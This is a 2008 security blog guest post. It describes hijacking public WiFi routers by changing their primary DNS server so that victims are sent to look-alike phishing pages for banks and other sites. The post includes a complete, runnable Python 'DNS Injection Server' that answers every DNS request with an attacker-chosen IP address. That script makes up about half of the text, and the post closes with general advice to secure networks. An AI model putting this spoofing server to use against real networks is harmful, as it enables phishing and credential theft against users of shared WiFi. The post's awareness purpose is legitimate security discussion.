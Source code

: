 ```yaml
---
title: WiFi Ownage
author: pdp
guest: sam-aldis
date: Thu, 07 Feb 2008 10:59:13 GMT
template: post.jade
---
```


> This month GNUCITIZEN's guest blogger is Sam Aldis, the founder of [darkstar.me.uk](http://darkstar.me.uk/). Sam started as a blackhat/script kiddie but soon he has learned a life lesson when he broke into a big football(soccer) leagues site. Sam did not serve any sentence but he had to pay a hefty fine. This is how he turned into a whitehat and now he is in the process of setting up his own security company. These are his words:

I have recently been doing research into WiFi connections without wepkeys and where the attacker is able to change the primary DNS server on the router. This is actually a very serious problem as the attacker is able to get your credit card details or any other information you input without you even knowing.

Imagine you are at a hotel with your laptop. You connect to the WiFi that they provide and type in `www.google.com`, which brings up google's front page. The address bar says http://www.google.com and the page looks genuine so it is.. isn't it? However, attackers may could have got access to the router and changed the primary DNS server through many of the available methods in the wild, like [UPnP hacking](/blog/hacking-with-upnp-universal-plug-and-play), etc.

Theoretically, the attacker could use any IP address to pull the trick, as long as a DNS server was running behind the UDP port 53. But it would be more beneficial if the attacker is under control of this DNS server, so he/she is able to show the user what ever they want them to see. For example, the user could type in their bank's website address and end up at a phishing page but they wouldn't know because they would see their banks address in the title bar and the page could be made to look exactly the same (and auto-update itself through some PHP magic). When the user logs in, a fake DNS server will respond which will make the user go to the wrong IP address. As you can see this is a big threat that will affect anyone who hasn't secured their network.

I have created a python script which can act as a temporary DNS server which will direct all requests to a certain IP (keep checking [http://darkstar.me.uk](http://darkstar.me.uk) for updates). Here is the script that complies to the scenarios described above:

```html
# DNS Injection Server
# Created By fazed
# DNSQuery class adapted from Francisco Santos's
# code. why re-invent the wheel?

from socket import *

class DNSQuery:
 def __init__(self, data):
   self.data=data
   self.domain=''

   tipo = (ord(data[2]) >> 3) & 15
   if tipo == 0:
     ini=12
     lon=ord(data[ini])
     while lon != 0:
       self.domain+=data[ini+1:ini+lon+1]+'.'
       ini+=lon+1
       lon=ord(data[ini])

 def respond(self, ip):
   packet=''
   if self.domain:
     packet+=self.data[:2] + "\x81\x80"
     packet+=self.data[4:6] + self.data[4:6] + '\x00\x00\x00\x00'
     packet+=self.data[12:]
     packet+='\xc0\x0c'
     packet+='\x00\x01\x00\x01\x00\x00\x00\x3c\x00\x04'
     packet+=str.join('',map(lambda x: chr(int(x)), ip.split('.')))
   return packet

print ":: DNS Injection Server Started ::"
sh = socket(AF_INET, SOCK_DGRAM)
print "Socket Handle Created.."
sh.bind(('',53))
print "Socket Handle Bound To UDP Port 53"
ip = raw_input("IP to inject: ")
try:
   while 1:
       data, addr = sh.recvfrom(1024)
       print "DNS Request From:", addr[0]
       p = DNSQuery(data)
       print "Sending IP address:", ip
       sh.sendto(p.respond(ip),addr)
       print "Response Sent.."
except KeyboardInterrupt:
   print ":: DNS Injection Server Stoped ::"
   sh.close()
```

The bottom line is: secure your networks and don't trust public WiFi access points.

